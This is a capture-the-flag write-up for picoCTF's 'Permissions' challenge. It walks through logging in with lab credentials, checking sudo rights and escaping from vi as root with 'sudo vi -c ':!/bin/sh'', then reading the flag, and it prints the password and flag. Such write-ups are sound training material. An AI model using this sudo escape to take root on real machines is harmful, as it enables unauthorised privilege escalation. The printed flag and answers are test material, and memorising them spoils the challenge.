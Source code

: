 # Permissions

## Overview
- **100 points**
- **General Skills**
- **Author: Geoffrey Njogu**

## Description
Can you read files in the root file?

Additional details will be available after launching your challenge instance.

Instance:
```
main server:
ssh -p 62758
picoplayer@saturn.picoctf.net
Password: j4ks-9nxB-
Can you login and read the root file?
```

## Approach
This is a bit tricky on my part, since I have 0 knowledge in Vim. 

I was stuck playing around with the files using **'cd'** and **'ls'.** I even tried using ls -al to show permissions, but that didn't work. 
I tried opening files using **'sudo'**, but that didn't work as well. However, what intrigued me after is:
```
$ sudo -l # I ran with -l to see what are the files that I'm permitted to execute with sudo
[sudo] password for picoplayer:
Matching Defaults entries for picoplayer on challenge:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User picoplayer may run the following commands on challenge:
    (ALL) /usr/bin/vi
```

So this all makes sense now, with **'vim'** in one of the tags. I researched a lot of commands until I finally arrived with this.
```
$ sudo vi -c ':!/bin/sh'

# whoami
root
```

What the code did was to use Vim text editor (vi) to execute shell (:!/bin/sh) using sudo or with superuser privileges.

Now that we have the root access, I went to the root directory and opened 'challenge' folder.
```
# ls
bin   challenge  etc   lib    lib64   media  opt   root  sbin  sys  usr
boot  dev        home  lib32  libx32  mnt    proc  run   srv   tmp  var
# cd challenge
# ls
metadata.json
# cat metadata.json
{"flag": "picoCTF{uS1ng_v1m_3dit0r_021d10ab}", "username": "picoplayer", "password": "j4ks-9nxB-"}#
```

Flag:
```
picoCTF{uS1ng_v1m_3dit0r_021d10ab}
```
